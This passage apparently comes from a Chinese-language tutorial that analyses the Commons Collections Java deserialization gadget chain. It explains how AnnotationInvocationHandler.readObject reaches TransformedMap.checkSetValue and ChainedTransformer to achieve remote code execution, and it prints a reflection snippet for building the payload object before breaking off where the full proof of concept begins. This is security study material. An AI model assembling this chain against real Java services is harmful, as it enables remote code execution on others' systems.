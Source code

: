 ```java
        value = this.transformValue(value);
        return this.getMap().put(key, value);
    }

    public void putAll(Map mapToCopy) {
        mapToCopy = this.transformMap(mapToCopy);
        this.getMap().putAll(mapToCopy);
    }
}
```
decorate和put方法相结合能改完成转换的一个作用，类似你put了一个map（"test","123") 在这个类里去调用put无论你的键值都会被构造方法传入的值对象所覆盖，那这个有什么作用呢，这个作用就是this.valueTransformer的变量属性，我们看到checkSetValue方法的transform，在前面我们分析了chainedTransformer，跟这个作用是一样的用来触发弹出计算器，但依靠这里我们只能获得本地shell，但要想打远程还得需要触发点，这里就参考上面说的AnnotationInvocationHandler，我们去分析这个源码：
```java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
    var1.defaultReadObject();
    AnnotationType var2 = null;

    try {
        var2 = AnnotationType.getInstance(this.type);
    } catch (IllegalArgumentException var9) {
        return;
    }

    Map var3 = var2.memberTypes();
    Iterator var4 = this.memberValues.entrySet().iterator();

    while(var4.hasNext()) {
        Map.Entry var5 = (Map.Entry)var4.next();
        String var6 = (String)var5.getKey();
        Class var7 = (Class)var3.get(var6);
        if (var7 != null) {
            Object var8 = var5.getValue();
            if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
            }
        }
    }

}
}
```
我们在最后一行发现var5.setValue，这个就和前面TransformedMap的setValue一样了，如果我们控制var5的属性值为我们的chainedTransformer，让它去执行TransformedMap的setValue，为什么要去让它去执行这个里面的setValue呢，我们跟进这个类的setValue看下，这个setValue在它的父类里直接去父类看下即AbstractInputCheckedMapDecorator：
```java
public Object setValue(Object value) {
value = this.parent.checkSetValue(value);
return super.entry.setValue(value);
}
```
在这里我们发现开始调用了checkSetValue，那么它就可以回过头去调用TransformedMap的checkSetValue了，然后就能去调用transform完成rce了，那么怎么调用那个AnnotationInvocationHandler呢，需要反射下它然后去传入我们的对象值即可,源码如下：
```java
Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);
Object instance=ctor.newInstance(Target.class, transformedMap);
```
cls反射这个库，ctor用来获取方法类等，ctor.setAccessible开启访问权限设置为true，ctor.newInstance将我们的transformMap构造的类传入到目标类的构造方法里完成赋值，下面就是序列化下再反序列化就可以完成调用了，完整poc如下：
```java
package com.ctfjava.main;
```